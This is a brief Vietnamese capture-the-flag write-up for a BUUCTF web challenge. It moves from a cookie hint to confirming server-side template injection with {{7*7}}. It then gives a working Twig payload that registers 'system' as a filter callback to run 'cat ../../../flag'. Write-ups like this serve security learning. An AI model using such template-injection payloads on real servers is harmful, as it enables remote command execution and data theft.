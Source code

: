 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5bd037b1-b53e-47a4-a6fe-05f6eaf622ec)

Mình check xem `Flag` và `Hint` có gì đặc biệt ko.Hint thì nó cho là `Why not take a closer look at cookies?`

Ở flag nó cho sumbit username, sumbit thử xem sao

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/68734cef-375f-4ea6-9cfb-79adbe637ecf)

Sau đó thì mình check thử cookies xem sao thì thấy user = admin.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c0347169-fcef-432d-8fc0-e3c7877a9aff)

Sau khi thử với `{{7*7}}` thì nó hiện ra kết quả là 49. Vậy challenge này là ssti.Ở php thì có twig với smarty.Mình đã thử test smarty nhưng ko có kết quả nên sang thử Twig xem sao

Payload:`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("cat ../../../flag")}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b8b6da18-b9e5-4b8a-a8f5-5853c42bc25b)


